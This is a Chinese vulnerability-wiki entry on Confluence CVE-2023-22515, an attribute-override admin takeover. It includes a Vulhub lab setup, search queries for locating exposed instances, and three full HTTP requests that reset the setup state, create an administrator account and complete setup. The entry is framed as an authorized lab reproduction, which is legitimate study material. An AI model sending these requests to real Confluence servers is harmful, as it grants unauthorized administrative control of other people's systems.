


# Confluence Server/Data Center 22515 setupComplete属性覆盖接管

## 条目说明

- 对象与具体问题：Confluence Server/Data Center；22515 setupComplete属性覆盖接管
- 版本、配置及部署条件：>=8.0.0，实验8.5.1；未列修复上界
- 认证与权限前提：未认证声明
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 修改setupComplete、创建管理员、finishsetup都是状态更改及持久访问，不当检测用
- 与22518同setup场景但不同属性覆盖根因，必须分开
- 未给安全版本，只有不影响<8不足形成完整范围；保留官方/Rapid7

## 操作风险

请求可能删除/覆盖数据、修改账号或持久改变业务状态。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

### 漏洞描述

Atlassian Confluence是企业广泛使用的wiki系统。

2023年10月4日，Atlassian官方发布了对于CVE-2023-22515漏洞的补丁。这个漏洞是由属性覆盖导致，利用 `/server-info.action` 端点传递 `bootstrapStatusProvider.applicationConfig.setupComplete` 参数，使服务器处于安装未完成状态，以访问受限制的端点并创建未经授权的 Confluence 管理员帐户，登录 Confluence 实例后台。

该漏洞不影响8.0.0以前的版本。

参考链接：

- https://confluence.atlassian.com/security/cve-2023-22515-privilege-escalation-vulnerability-in-confluence-data-center-and-server-1295682276.html
- https://attackerkb.com/topics/Q5f0ItSzw5/cve-2023-22515/rapid7-analysis

### 网络测绘

```
app="ATLASSIAN-Confluence"
title=="登录 - Confluence"
```

### 环境搭建

Vulhub 执行如下命令启动一个Confluence Server 8.5.1：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:8090`即可进入安装向导，参考[CVE-2019-3396](https://github.com/vulhub/vulhub/tree/master/confluence/CVE-2019-3396)这个环境中的安装方法，申请试用版许可证。在填写数据库信息的页面，PostgreSQL数据库地址为`db`，数据库名称`confluence`，用户名密码均为`postgres`。




### 漏洞复现

首先，最主要的请求就是覆盖目标Confluence服务器中的`bootstrapStatusProvider.applicationConfig.setupComplete`属性：

```http
GET /server-info.action?bootstrapStatusProvider.applicationConfig.setupComplete=false HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Connection: close
Cache-Control: max-age=0
```

然后，你就可以使用如下请求创建一个新的管理员账户`vulhub`：

```http
POST /setup/setupadministrator.action HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 110
X-Atlassian-Token: no-check

username=vulhub&fullName=vulhub&email=admin%40vulhub.org&password=vulhub&confirm=vulhub&setup-next-button=Next
```

> 请求长度说明：原资料 Content-Length 为 110；保留原始标头；其数值未据实际请求体重新计算或验证。

发送如下请求完成安装步骤：

```http
POST /setup/finishsetup.action HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
X-Atlassian-Token: no-check
```

最后，直接使用新的`vulhub`账户（密码同样是`vulhub`）来登录Confluence，可见新的管理员已成功增加：




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
